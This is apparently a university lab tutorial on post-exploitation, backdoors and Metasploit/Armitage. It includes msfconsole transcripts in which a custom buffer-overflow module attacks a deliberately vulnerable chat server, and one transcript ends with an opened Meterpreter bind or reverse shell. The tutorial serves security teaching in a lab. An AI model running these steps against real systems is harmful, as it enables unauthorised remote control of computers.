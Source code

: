 Post exploitation also includes installation of a backdoor. It is often necessary since if the system is patched, the attacker will not be able to log into the target computer again after the system reboots. A backdoor is a piece of software the attacker installs on the target computer and allows the attacker to log into the target computer later.

## Introduction to Metasploit and Armitage
Metasploit is a great console based hacking tool. However, you have to manually enter commands to use the functionalities.
So it is very hard to use without advanced knowledge.
Armitage is a GUI interface for Metasploit so that all attacks and other functionalities are just a few clicks away
although some functionalities require inputs.
Please check this <a href="../FieldTrips">tutorial</a> on an introduction to Metasploit and Armitage.

### knock module against vchat

We created a <a href="https://github.com/xinwenfu/Malware-Analysis/tree/main/MetasploitNewModule">knock</a> module to exploit our vchat server. At Kali VM, the knock module is located at /usr/share/metasploit-framework/modules/exploits/windows/vchat/.
This module exploits a buffer overflow vulnerability of the vchat server and allows the attacker to hack into the computer running the vchat server.

Here is what happens (in this case what armitage shows in the exploit window) when using the *knock* module without selecting *Use a reverse connection*
```
msf6 > use exploit/windows/vulnserver/knock
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/vulnserver/knock) > set RHOSTS 192.168.1.19
RHOSTS => 192.168.1.19
msf6 exploit(windows/vulnserver/knock) > set TARGET 0
TARGET => 0
msf6 exploit(windows/vulnserver/knock) > set LHOST 192.168.1.4
LHOST => 192.168.1.4
msf6 exploit(windows/vulnserver/knock) > set LPORT 19521
LPORT => 19521
msf6 exploit(windows/vulnserver/knock) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf6 exploit(windows/vulnserver/knock) > set RPORT 9999
RPORT => 9999
msf6 exploit(windows/vulnserver/knock) > exploit -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
[*] 192.168.1.19:9999 - Connecting to target...
[*] 192.168.1.19:9999 - Trying target vulnserver-KNOCK...
[*] Started bind TCP handler against 192.168.1.19:19521
[*] Sending stage (175174 bytes) to 192.168.1.19
[*] Meterpreter session 1 opened (192.168.1.4:38211 -> 192.168.1.19:19521 ) at 2022-06-12 16:25:01 -0400
```

Here is what happens (armitage shows in the exploit window) when using the *knock* module with selecting *Use a reverse connection*
```
msf6 > use exploit/windows/vulnserver/knock
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/vulnserver/knock) > set RHOSTS 192.168.1.19
RHOSTS => 192.168.1.19
msf6 exploit(windows/vulnserver/knock) > set TARGET 0
TARGET => 0
msf6 exploit(windows/vulnserver/knock) > set LHOST 192.168.1.4
LHOST => 192.168.1.4
msf6 exploit(windows/vulnserver/knock) > set LPORT 9387
LPORT => 9387
msf6 exploit(windows/vulnserver/knock) > set PAYLOAD windows/meterpreter/reverse_tcp
```